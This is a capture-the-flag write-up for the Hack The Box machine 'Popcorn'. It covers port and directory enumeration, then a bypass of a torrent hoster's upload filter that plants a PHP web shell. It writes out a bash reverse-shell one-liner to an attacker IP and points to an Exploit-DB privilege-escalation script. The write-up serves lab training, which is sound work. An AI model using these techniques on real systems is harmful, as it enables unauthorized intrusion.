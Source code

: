 ```yaml
---
title: "[HTB] Machine: Popcorn"
description: "[HTB] Machine: Popcorn"
date: 2023-09-01
menu:
  sidebar:
    name: "[HTB] Machine: Popcorn"
    identifier: htb-machine-Popcorn
    parent: htb-machines-linux
    weight: 10
hero: images/popcorn.png
tags: ["HTB", "ubuntu", "karmic", "torrent-hoster", "filter", "webshell", "php", "upload", "cve-2010-0832", "arbitrary-write", "passwd", "ssh"]
---
```


# Popcorn
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.6 -T4                             
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-02 11:54 BST
Warning: 10.10.10.6 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.10.6 (10.10.10.6)
Host is up (0.14s latency).
Not shown: 65504 closed tcp ports (conn-refused), 29 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
```
└─$ nmap -Pn -p22,80 -sC -sV 10.10.10.6 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-02 12:08 BST
Nmap scan report for 10.10.10.6 (10.10.10.6)
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- Web server

![](./images/1.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.6/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt --no-error      
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.6/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt
[+] Timeout:                 10s
===============================================================
2023/09/02 12:09:55 Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 177]
/test                 (Status: 200) [Size: 47026]
/torrent              (Status: 301) [Size: 310] [--> http://10.10.10.6/torrent/]
/rename               (Status: 301) [Size: 309] [--> http://10.10.10.6/rename/]
```

![](./images/2.png)

![](./images/3.png)

![](./images/4.png)

## Foothold/User
- Let's check the torrent hoster
  - I will register a user and check if there is something interesting
  - We have `Kali Linux` image

![](./images/5.png)

![](./images/6.png)

![](./images/7.png)

- We have an `http://10.10.10.6/torrent/upload/` with uploaded images

![](./images/9.png)

![](./images/11.png)

- We know from `http://10.10.10.6/test`
  - That we have `file_uploads` option `on`
  - And looks like we can upload files to `http://10.10.10.6/torrent/torrents.php?mode=upload`

![](./images/8.png)

![](./images/10.png)

- We saw `http://10.10.10.6/rename` endpoint which allows renaming the files
  - The possible path for us is to upload files/image via `torrent` endpoint and change extension to `.php` via `rename` endpoint
  - First we download a correct torrent file since we need to pass the check when uploading the check

![](./images/12.png)

![](./images/13.png)

- Now we click `edit this torrent`
  - Select a `image` file and click `submit screenshot`
  - I chose `shell.php`
  - And it failed with `Invalid file` error

![](./images/14.png)

![](./images/15.png)

![](./images/16.png)



- There are 3 ways we can bypass the check:
  - Change `Content-Type` header
  - Change file extension
  - Set `Magic` bytes
  - I'll start with header

![](./images/17.png)

![](./images/18.png)

- And web shell works

![](./images/19.png)

- Let's get reverse shell
  - `bash -c 'bash -i >& /dev/tcp/10.10.16.4/6666 0>&1'`
  - Change `&` with `%26`, it should work
    - `?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.16.4/6666 0>%261'`

![](./images/20.png)

- If you have weird behavior with shell after upgrading it
  - Try typing `reset` and type `screen` for `Terminal type?`


## Root
- `george` user
```
www-data@popcorn:/var/www$ find / -user george -type f -ls 2>/dev/null
    76    4 -rw-r--r--   1 george   george        220 Mar 17  2017 /home/george/.bash_logout
    82    4 -rw-r--r--   1 george   george       3180 Mar 17  2017 /home/george/.bashrc
 42885  832 -rw-r--r--   1 george   george     848727 Mar 17  2017 /home/george/torrenthoster.zip
 42883    0 -rw-r--r--   1 george   george          0 Mar 17  2017 /home/george/.cache/motd.legal-displayed
 42884    0 -rw-r--r--   1 george   george          0 Mar 17  2017 /home/george/.sudo_as_admin_successful
  2210    4 -rw-r--r--   1 george   george         33 Sep  2 13:53 /home/george/user.txt
   107    4 -rw-r--r--   1 george   george        675 Mar 17  2017 /home/george/.profile
```
- We see `/home/george/.cache/motd.legal-displayed`
  - Googling results in https://www.exploit-db.com/exploits/14339
  - I'll download the `script` and run it on the box

![](./images/21.png)